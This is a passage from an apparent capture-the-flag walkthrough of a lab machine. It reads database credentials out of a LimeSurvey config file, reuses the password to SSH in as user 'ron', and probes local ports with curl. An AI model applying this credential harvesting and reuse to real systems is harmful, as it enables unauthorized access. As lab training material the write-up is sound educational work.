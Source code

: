 ## <span style="color: red; font-weight: bold;">Shell as root</span>

### <span style="color: #3498eb;">Shell as </span>`ron`

Digging around in the `Lime Survey` directory for a while, I found this in `/var/www/limesurvey/application/config/config.php`

```php
return array(
        'components' => array(
                'db' => array(
                        'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
                        'emulatePrepare' => true,
                        'username' => 'db_user',
                        'password' => 'AdmiDi0_pA$$w0rd',
                        'charset' => 'utf8',
                        'tablePrefix' => 'lime_',
                ),
```

```zsh
❯ ssh ron@heal.htb
ron@heal.htb's password: AdmiDi0_pA$$w0rd

ron@heal:~$ id
uid=1001(ron) gid=1001(ron) groups=1001(ron)
```

### <span style="color: #3498eb;">TCP 8500 </span>

Checking around, I found something interesting on port 8500.

```zsh
ron@heal:~$ ss -tlnp
ron@heal:~$ curl 127.0.0.1:3001
ron@heal:~$ curl 127.0.0.1:8302
curl: (1) Received HTTP/0.9 when not allowed
ron@heal:~$ curl 127.0.0.1:8300
curl: (56) Recv failure: Connection reset by peer
ron@heal:~$ curl 127.0.0.1:8301
curl: (1) Received HTTP/0.9 when not allowed
ron@heal:~$ curl 127.0.0.1:8503
curl: (52) Empty reply from server
ron@heal:~$ curl 127.0.0.1:8500
<a href="/ui/">Moved Permanently</a>.

ron@heal:~$ curl 127.0.0.1:8600
curl: (52) Empty reply from server
ron@heal:~$ curl 127.0.0.1:5432
curl: (52) Empty reply from server
```
